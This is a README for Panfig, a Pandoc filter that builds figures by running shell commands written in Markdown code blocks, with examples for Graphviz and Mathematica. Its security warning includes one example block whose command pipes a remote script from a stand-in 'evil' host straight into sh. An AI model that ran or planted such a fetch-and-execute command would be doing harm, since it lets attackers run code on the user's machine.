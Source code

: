 Pandoc Figure Framework
=======================

This library lets you write self-contained Pandoc/Markdown files that contain figures.

Without Panfig, if you want figures, you have to save the image files, and the scripts that generate them, alongside the document. You'd probably even have a Make system to ensure that all the figures were up to date. What a hassle!

With Panfig, the document stands alone. It describes how to generate the images, and they're generated when the document is compiled to HTML (or whatever).

For example, this Markdown code:

```markdown
Here is a very simple FSM: the "on-off automaton."

~~~~~~~~ {.panfig sh="dot -Tpng -o {path}"}
  digraph G {
    on [style=filled];
    on -> off;
    off -> on;
  }
~~~~~~~~
```

generates this HTML:

> Here is a very simple FSM: the "on-off automaton."
>
> ~~~~~~~~ {.panfig sh="dot -Tpng -o {path}"}
>   digraph G {
>     on [style=filled];
>     on -> off;
>     off -> on;
>   }
> ~~~~~~~~



Security: for God's sake, be careful.
-------------------------------------

I am putting this here because you should care.
**Panfig executes arbitrary code contained in the document being compiled. If you invoked Pandoc (+Panfig) on the following document, it would own your computer.**

    ~~~~~~~~ { .panfig sh="curl http://example.com/evil_exploit.sh | sh"}
    ~~~~~~~~



How do I use it?
----------------

In general terms: where you want a figure, you write a code block that describes how to generate an image file. Then you compile the document with `pandoc --filter panfig ...`, and Panfig will generate the image and replace the code block with it.

More specifically: to make a figure, you use Pandoc/Markdown's fenced-code-block syntax to designate a code block as a Panfig block, by giving it the `.panfig` class, and also specifying a shell command that generates the image, like so:

```markdown
~~~~~~~~ { .panfig shell="dot -Tpdf -o {path}" }
  digraph G {
    on -> off;
    off -> on;
  }
~~~~~~~~
```

The `sh` attribute, as you see, is a shell command. The contents of the block are piped to its standard input.


### Aliases

If you get tired of writing the same command over and over, you can use aliases to make things more concise. For example:

- With aliases:

    ```markdown
    ~~~~~~~~ { .panfig shell="(cat; echo 'Export[$CommandLine[[2]], %]') | MathKernel {path}" }
      Plot[Sin[x], {x, 0, 2*Pi}]
    ~~~~~~~~
    ```

- With aliases:

    ```markdown
    ~~~~~~~~ { .panfig-aliases }
      {"mma": {"shell": "(cat; echo 'Export[$CommandLine[[2]], %]') | MathKernel {path}"}}
    ~~~~~~~~

    ~~~~~~~~ { .panfig alias=mma }
      Plot[Sin[x], {x, 0, 2*Pi}]
    ~~~~~~~~
    ```
